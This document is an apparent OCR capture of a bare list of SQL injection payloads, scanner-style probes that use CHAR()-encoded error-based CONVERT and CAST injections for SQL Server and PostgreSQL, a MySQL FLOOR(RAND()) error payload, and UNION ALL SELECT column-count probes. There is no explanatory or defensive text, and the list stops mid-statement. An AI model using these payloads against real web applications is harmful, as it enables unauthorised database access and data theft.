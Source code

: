 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))#  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))#  UNION ALL SELECT NULL   AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))  AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))  AND 5650=CONVERT(INT,(SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+(SELECT (CASE WHEN (5650=5650) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))  AND 3516=CAST((CHR(113)||CHR(106)||CHR(122)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (3516=3516) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(112)||CHR(106)||CHR(107)||CHR(113)) AS NUMERIC)  AND (SELECT 4523 FROM(SELECT COUNT(*),CONCAT(0x716a7a6a71,(SELECT (ELT(4523=4523,1))),0x71706a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)  UNION ALL SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+CHAR(110)+CHAR(106)+CHAR(99)+CHAR(73)+CHAR(66)+CHAR(109)+CHAR(119)+CHAR(81)+CHAR(108)+CHAR(88)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113),NULL--   UNION ALL SELECT 'INJ'||'ECT'||'XXX'  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8  UNION ALL SELECT